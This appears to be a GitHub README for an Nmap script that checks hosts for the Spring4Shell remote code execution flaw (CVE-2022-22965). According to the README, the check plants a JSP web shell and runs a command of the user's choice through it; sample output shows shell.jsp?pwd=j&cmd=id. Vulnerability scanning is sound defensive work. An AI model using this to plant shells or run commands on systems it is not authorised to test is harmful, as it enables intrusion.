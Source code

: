 # Nmap-spring4shell
Log4shell-nmap is an NSE script for detecting Spring4Shell RCE vulnerabilities (CVE-2022-22965) in HTTP services. The script injects the correct payload into the application and then executes the following command on the specified endpoint.

## Vulnerability
See [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/).

## Usage
```
┌──(kali㉿kali)-[~/nmap-spring4shell]
└─$ nmap 127.0.0.1 --script=./spring4shell.nse
(...)
PORT     STATE SERVICE    REASON  VERSION
8080/tcp open  http-proxy syn-ack
| spring4shell: 
|   VULNERABLE:
|   Spring4Shell - Spring Framework RCE via Data Binding on JDK 9+
|     State: VULNERABLE
|     IDs:  CVE:CVE-2022-22965
|     Check results:
|       127.0.0.1:8080/shell.jsp?pwd=j&cmd=id
|     Extra information:
|       TESTED URL: 127.0.0.1:8080
|       COMMAND: id
|       ASSERTION: uid
|     References:
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965
```

## Arguments
We can use several variables in the script. These are as follows:
- endpoint - relative url. On `https://bugspace.pl/search/videos` it will be `/search/videos`,
- command - command to be run on the server.  The default command is `id`,
- assertion - the checked string inside the server response. The default assertion is `uid`,
- filename - file name on the server. For more information see [here](https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/). The default name is `shell`.

## Sources to check
https://www.lunasec.io/docs/blog/spring-rce-vulnerabilities/

## License
Same as Nmap. See https://nmap.org/book/man-legal.html
